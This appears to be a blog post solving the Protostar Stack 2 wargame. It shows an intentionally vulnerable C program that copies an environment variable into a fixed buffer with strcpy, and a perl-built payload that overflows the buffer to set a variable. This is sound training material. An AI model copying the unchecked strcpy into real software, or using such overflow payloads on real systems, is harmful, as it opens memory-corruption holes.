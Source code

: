 ```yaml
---
layout: post
title: "Exploit Exercises - Protostar Stack 2"
date: "2011-12-14T05:08:00-05:00"
comments: true
categories:
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
---
```


This challenge is pretty much the same as the previous challenge, except that the buffer comes from an environmental variable.

<!-- more -->

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
 volatile int modified;
 char buffer[64];
 char *variable;

 variable = getenv("GREENIE");

 if(variable == NULL) {
  errx(1, "please set the GREENIE environment variable\n");
 }

 modified = 0;

 strcpy(buffer, variable);

 if(modified == 0x0d0a0d0a) {
  printf("you have correctly modified the variable\n");
 } else {
  printf("Try again, you got 0x%08x\n", modified);
 }

}
```

This problem can simply be solved by running these commands:

```
user@protostar:/opt/protostar/bin$ GREENIE=`perl -e 'print "A"x64 . "\x0a\x0d\x0a\x0d"'`
user@protostar:/opt/protostar/bin$ export GREENIE
user@protostar:/opt/protostar/bin$ ./stack2
you have correctly modified the variable
```

This will put the 64 "A"s and 0x0d0a0d0a (in little endian) into an environmental variable.  Then when the vulnerable C app reads it, overflows the buffer into the "modified" variable, just like the others.
